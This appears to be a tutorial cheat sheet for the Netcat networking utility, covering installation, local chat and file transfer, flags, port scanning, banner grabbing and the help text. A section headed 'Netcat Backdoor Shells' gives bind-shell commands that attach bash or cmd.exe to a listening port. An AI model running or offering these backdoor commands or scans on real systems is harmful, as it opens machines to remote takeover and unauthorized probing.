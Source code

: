 ## NetCat
Netcat is a Unix utility which reads and writes data across network connections using TCP or UDP protocol. 

### Tasks that can be done with NetCat:

* Connect to a port of a target host.
* Listen to a certain port for any inbound connections.
* Send data across client and server once the connection is established.
* Transfer files across the network once the connection is established.
* Can execute programs and scripts of the client on the server and vice versa.
* Can Provide remote shell access of server to a client where shell commands can be executed.


## For Windows

[`<Download />`](https://sourceforge.net/projects/nc110/)

## Installation for linux

```js
apt install netcat-traditional
```
or

```js
sudo apt-get install netcat-traditional
```

## A simple client-server connection:

Type this command on the machine terminal. 
1. To perform simple chat.

```sh
## command for terminal 1
nc -l -v -p 8080
```

```sh
## command for terminal 2
nc 127.0.0.1 8080
```

2. To perform file transfer.

```sh
## command for terminal 1
nc -v -w 30 -l -p 8080 >file.txt
```

```sh
## command for terminal 2
nc -v -w 2 127.0.0.1 8080<file.txt
```

## Netcat Command Flags
```js
nc -4 – use IPv4 only

nc -6 – use IPv6

nc -u – use UDP instead of TCP

nc -k -l – continue listening after disconnection

nc -n – skip DNS lookups

nc -v – provide verbose output
```


## Netcat Port Scanner
```js
nc -zv site.com 80 – scan a single port

nc -zv hostname.com 80 84 – scan a set of individual ports

nc -zv site.com 80-84 – scan a range of ports
```

## Netcat Banners
```js
echo “” | nc -zv -wl [host] [port range] – obtain the TCP banners for a range of ports
```

## Netcat Backdoor Shells
```js
nc -l -p [port] -e /bin/bash – run a shell on Linux

nc -l -p [port] -e cmd.exe – run a shell for Windows
```

### NetCat Help Commands:

```js
$ netcat -h
```

```js
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
 -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```


